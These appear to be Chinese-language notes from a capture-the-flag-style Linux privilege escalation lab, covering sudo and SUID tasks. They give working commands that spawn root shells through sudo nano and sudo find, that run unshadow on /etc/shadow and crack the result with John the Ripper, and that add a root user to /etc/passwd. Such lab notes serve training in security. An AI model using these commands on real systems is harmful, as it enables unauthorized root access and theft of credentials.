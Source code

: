 
ubuntu
```
cd tmp

wget 

./37292

```

## task6 權限提升：sudo

https://gtfobins.github.io/

用戶“karen”可以在目標系統上以 sudo 權限運行多少程序？
```
$ sudo -l
Matching Defaults entries for karen on ip-10-10-232-36:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-232-36:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano

```
提升權限
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

or
```
sudo find . -exec /bin/sh \; -quit
```

## task7 權限提升：SUID

find / -type f -perm -04000 -ls 2>/dev/null將列出設置了 SUID 或 SGID 位的文件。  
-----------------------------------------------------------------------------------
可以使用 unshadow 工具創建一個可以被開膛手約翰破解的文件。為了實現這一點，unshadow 需要/etc/shadow和/etc/passwd文件。    

`unshadow passwd.txt shadow.txt > passwords.txt`    
john --wordlist=/usr/share/wordlists passwords.txt    
-----------------------------------------------------------------------------------
### 另一種選擇是添加一個具有 root 權限的新用戶。這將幫助我們避開繁瑣的密碼破解過程。
可以使用 Kali Linux 上的 openssl 工具快速完成。
`openssl passwd -1 -salt THM password1`    
然後，我們將此密碼和用戶名添加到/etc/passwd 文件中。                        
一旦我們的用戶被添加（請注意如何root:/bin/bash用於提供一個 root                    shell），我們將需要切換到這個用戶並且希望應該有 root 權限。       
 